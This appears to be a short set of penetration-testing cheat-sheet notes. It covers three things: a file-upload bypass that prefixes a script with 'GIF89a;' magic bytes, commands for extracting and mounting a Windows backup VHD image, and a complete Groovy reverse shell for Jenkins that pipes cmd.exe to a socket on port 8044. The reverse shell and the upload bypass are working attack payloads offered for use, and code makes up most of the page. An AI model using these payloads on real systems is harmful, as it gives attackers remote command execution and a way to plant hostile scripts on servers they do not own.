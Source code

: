 ## image file upload 
bypass upload restriction through file type magic bytes
```c
GIF89a;			// insert at start of script
```

## VHD file analysis & VHD file extraction & VHD mounting
```c
7z l <image-name> 	// 7z list files on image
7z x <image-name>	// extract files
apt isntall libguestfs-tools
sudo guestmount --add /mnt/bkp/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/winvhd			// mount vhd image
```

## Jenkins
groovy reverse shell
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

